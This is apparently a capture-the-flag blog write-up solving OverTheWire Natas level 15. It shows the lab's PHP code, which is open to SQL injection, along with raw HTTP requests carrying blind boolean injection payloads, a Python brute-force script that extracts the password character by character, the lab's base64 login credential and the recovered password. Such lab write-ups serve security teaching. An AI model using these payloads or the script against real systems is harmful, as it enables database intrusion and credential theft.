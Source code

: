 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 15"
date:   2015-09-21
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 15 > Level 16

![natas15-01](/assets/images/otw-natas/natas15-01.png)

```
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

This time around, nothing is returned - just a yes/no if the user exists (or, really, if our query results in any result). First, we'll guess that the username is natas16 using a stripped-down HTTP request that will be the basis of our later attack.

```
POST /index.php?debug HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

username=natas16
```

```
<h1>natas15</h1>
<div id="content">
Executing query: SELECT * from users where username="natas16"<br>This user exists.<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

If we inject a statement that checks the username and only the first character of the password, we can loop through all letters and numbers to determine it. If successful, this can be expanded for each character position until we have the full password.

First, a POC in Burp Intruder. The request is as follows, where X is the character to iterate.

```
POST /index.php?debug HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

username=natas16" and LEFT(password, 1)="X
```

![natas15-02](/assets/images/otw-natas/natas15-02.png)

One payload results in a reponse with a suspiciously different length. "This user exists," it says - bingo.

As it turns out, the first character is 'W' and not 'w' as shown in Burp. As discussed [here](http://stackoverflow.com/questions/5629111/how-can-i-make-sql-case-sensitive-string-comparison-on-mysql), certain string comparisons are not case sensitive. The addition of BINARY as used in the injection code below fixes this issue.

The ugliness below is a hastily-written solution which bruteforces each individual character. I prefer crafting the request myself and sending it to a socket rather than using an HTTP library as it is easier to debug and offers tremendous flexibility. The `natas15(p)` function returns a boolean after trying password p. The loops walk through the problem in the most straightfoward way - keep trying characters at a given position until you find one, and keep adding a position until one is found for which no characters match.

```
import socket

HOST = "natas15.natas.labs.overthewire.org"
PORT = 80
HEAD = """POST /index.php HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: {clength}\r\n\r\n"""
POST = 'username=natas16" and BINARY LEFT(password, {glength})="{guess}'
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas15(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    TPOST = POST.format(glength=len(p), guess=p)
    REQU = HEAD.format(clength=len(TPOST)) + TPOST
    s.send(REQU)

    r = s.recv(8192)
    s.close()
    
    if "This user exists." in r:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas15(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

Success.

![natas15-03](/assets/images/otw-natas/natas15-03.png)

WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
